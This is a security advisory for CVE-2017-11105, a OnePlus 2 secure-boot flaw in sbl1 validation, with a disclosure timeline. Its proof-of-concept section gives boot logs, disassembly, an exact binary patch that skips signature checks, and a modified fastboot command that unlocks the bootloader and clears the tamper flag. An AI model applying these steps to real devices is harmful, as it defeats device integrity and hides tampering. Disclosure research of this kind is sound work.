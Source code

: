 ```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-22'
    - type: 'report'
      date: '2017-06-26'
    - type: 'vendor-ack'
      date: '2017-06-30'
      arg: 'deadline extended'
    - type: 'wont-fix'
      date: '2017-07-05'
      arg:  '"About to reach the product''s lifecycle"'
    - type: 'deadline'
      date: '2017-07-06'
    - type: 'cve-request'
      date: '2017-07-07'
    - type: 'cve-assign'
      date: '2017-07-08'
    - type: 'release'
      date: '2017-08-01'
    - type: 'deadline-extension'
      date: '2017-09-24'

cve: 'CVE-2017-11105'
severity: 'critical'
alephid: ALEPH-2017026
date: '2017-08-01'
title: 'OnePlus 2 Lack of SBL1 Validation Broken Secure Boot'
product: 
     - OnePlus 2
credit: roeeh
---
```

OnePlus 2 (a 2015 Qualcomm Snapdragon 810 device) successfully boots with a tampered Secondary Bootloader (`sbl1`) partition although it is digitally-signed, hence it is not validated by its Primary Bootloader (PBL), maybe due to lenient hardware configuration.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1]</span>
     `-.<span class="nc">
       [aboot]</span>
       |`-.
       |  <span class="nc">[...]</span>
       |-<span class="nc">[tz]</span>
       |-<span class="nc">[rpm]</span>
       |-<span class="nc">[pmic]</span>
       .
       .
</code></pre>
</div>
Attackers capable of tampering with the `sbl1` partition can then disable the signature validation of the rest of the bootloader chain and other SBL-validated partitions such as TrustZone and ABOOT.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1</span>*<span class="rd">]</span>
     `-.<span class="rd">
       [aboot]</span>
       |`-.
       |  <span class="rd">[...]</span>
       |-<span class="rd">[tz]</span>
       |-<span class="rd">[rpm]</span>
       |-<span class="rd">[pmic]</span>
       .
       .

* - Modified as per our PoC
</code></pre>
</div>

Equivalent partitions of older OnePlus devices ([One](https://forums.coronalabs.com/topic/60894-phones-that-have-no-secure-boot-not-locked-bootloader/)/X) seem to have no digital signatures at all, and therefore are vulnerable as well.

## Proof-of-Concept ##

The goal of our PoC, whose results are available in our [repo](https://github.com/alephsecurity/research/tree/master/CVE-2017-11105), is to disable the signature validation (implemented by SBL) of the rest of the partitions such as TrustZone and ABOOT.

In order to find the exact routine within the `sbl1` image that does that, we first discovered the UART ports exposed on the OnePlus 2 board, by simply probing the available ones using our beloved [Logic Analyzer](https://www.saleae.com/):

!["OnePlus 2 UART ports"](/assets/img/opo2uart.png)

Booting with authentic partitions results in the following debug messages through UART:
```
 B -    274561 - SBL1, Start
 B -    281728 - scatterload_region && ram_init, Start
 B -    296490 - boot_flash_init, Start
 D -        30 - boot_flash_init, Delta
 B -    297039 - boot_config_data_table_init, Start
 D -      3629 - boot_config_data_table_init, Delta
 B -    306067 - Image Load, Start
 D -     14060 - PMIC Image Loaded, Delta
 B -    320097 - sbl1_ddr_set_params, Start
 D -       579 - sbl1_ddr_set_params, Delta
 B -    326136 - pm_device_init, Start
 B -    328607 - PON REASON:PM0:0x2000000a0 PM1:0x2000000a0
 D -     37332 - pm_device_init, Delta
 [...]
 B -    763720 - Image Load, Start
 D -     36020 - APPSBL Image Loaded, Delta
 B -    799740 - sbl1_efs_handle_cookies, Start
 D -       457 - sbl1_efs_handle_cookies, End 
 B -    805383 - RPM sync cookie updated
 B -    808921 - SBL1, End 
 D -    536708 - SBL1, Delta
 Android Bootloader - UART_DM Initialized!!!
```
Booting with tampered SBL-validated partitions (e.g. `aboot`, `tz`), however, results in the following error (or similar):
```
B -    205997 - SBL1, Start
B -    213317 - scatterload_region && ram_init, Start
B -    227896 - boot_flash_init, Start
D -        30 - boot_flash_init, Delta
B -    228475 - boot_config_data_table_init, Start
D -      3599 - boot_config_data_table_init, Delta
[...]
B -   1184406 - Qsee Execution, Start
D -     80184 - Qsee Execution, Delta
B -   1436458 - Image Load, Start
D -     73871 - RPM Image Loaded, Delta
B -   1510573 - Signal PBL to Jump to RPM FW
B -   1512037 - Image Load, Start
D -      2562 - WDT Image Loaded, Delta
B -   1518107 - Image Load, Start
B -   1683996 - Error code 302e at /work/home/jenkins/14049_user_MP_HYDROGEN/MODEM/MSM8994/msm8994/boot_images/core/boot/secboot3/src/boot_elf_loader.c Line 829
```
By back-referencing the error string with IDA we can easily pinpoint the SBL function which validates the rest of the chain:

```
ROM:00000000FEC0E908 loc_FEC0E908                            ; CODE XREF: sub_FEC0E89C+1Cj
ROM:00000000FEC0E908        MOV             X0, X19
ROM:00000000FEC0E90C        BL              sub_FEC0F9A0
ROM:00000000FEC0E910        CBZ             W0, loc_FEC0E934
ROM:00000000FEC0E914        ADRP            X0, #off_FEC7FE28@PAGE
ROM:00000000FEC0E918        LDR             X3, [X0,#off_FEC7FE28@PAGEOFF]
ROM:00000000FEC0E91C        ADRP            X0, #(aSignalPblToJum+0x16) ; -
ROM:00000000FEC0E920        ADD             X0, X0, #aWorkHomeJen_19@PAGEOFF ; "/work/home/jenkins/14049_M_OOS_user_MP2"...
ROM:00000000FEC0E924        MOV             W1, #0x33D
ROM:00000000FEC0E928        MOV             W2, #0x302E
ROM:00000000FEC0E92C        BLR             X3
ROM:00000000FEC0E930
ROM:00000000FEC0E930 loc_FEC0E930
ROM:00000000FEC0E930        B               loc_FEC0E930
ROM:00000000FEC0E934
ROM:00000000FEC0E934 loc_FEC0E934                            ; CODE XREF: sub_FEC0E89C+74j
ROM:00000000FEC0E934        LDR             X19, [SP,#0x30+var_28]
ROM:00000000FEC0E938        LDP             X20, X21, [SP,#0x30+var_20]
ROM:00000000FEC0E93C        LDP             X22, X30, [SP,#0x30+var_10]
ROM:00000000FEC0E940        ADD             SP, SP, #0x30
ROM:00000000FEC0E944        RET
ROM:00000000FEC0E944 ; End of function sub_FEC0E89C
```

Notice the spinlock @ `0xFEC0E930`. Quick patching of the call @ `0xFEC0E90C` with `MOVZ W0, #0` will avoid the failing path. 
And indeed, booting with tampered `aboot` and `tz` now succeeds:

```
B -    276757 - SBL1, Start
[...]
D -      7564 - QHEE Image Loaded, Delta
B -    760548 - Image Load, Start
D -     31690 - QSEE Image Loaded, Delta
[...]
D -     36021 - APPSBL Image Loaded, Delta
B -   1102178 - sbl1_efs_handle_cookies, Start
D -       457 - sbl1_efs_handle_cookies, End
B -   1107790 - RPM sync cookie updated
B -   1111420 - SBL1, End
D -    836920 - SBL1, Delta
Android Bootloader - UART_DM Initialized!!!
[50] project name got 14049
[...]
[1130] lk fg_volt = 4038
[1130] Backlight 1
[1670] WARM: power_on_reason  is HARD_RESET [0x21]
[1680] WARM: power_on_reason  is PON1 [0x21]
[1680] WARM: power_off_reason  is KPDPWR_N [0x80]
[1850] Channel alloc freed
[1870] Jumping to kernel via monitor
```

To prove we can execute code within `aboot`, we have also modified one of the fastboot oem commands, made it temporarily unlock the bootloader, and turn off the device tampering flag:
```c
int __fastcall cowabunga_F92C60C(int a1, int a2)
{
[...]
  dword_F978FA4 = 1;    // unlocked
  dword_F978FA8 = 0;    // tampered
  FAIL("pizza",);
[...]
}
```
The result is as follows:
```terminal
$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: true
(bootloader)    Device unlocked: false
(bootloader)    Device is_verified: false

$ fastboot oem cowabunga
...
FAILED (remote: pizza)
finished. total time: 0.020s

$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: false
(bootloader)    Device unlocked: true
(bootloader)    Device is_verified: false
```
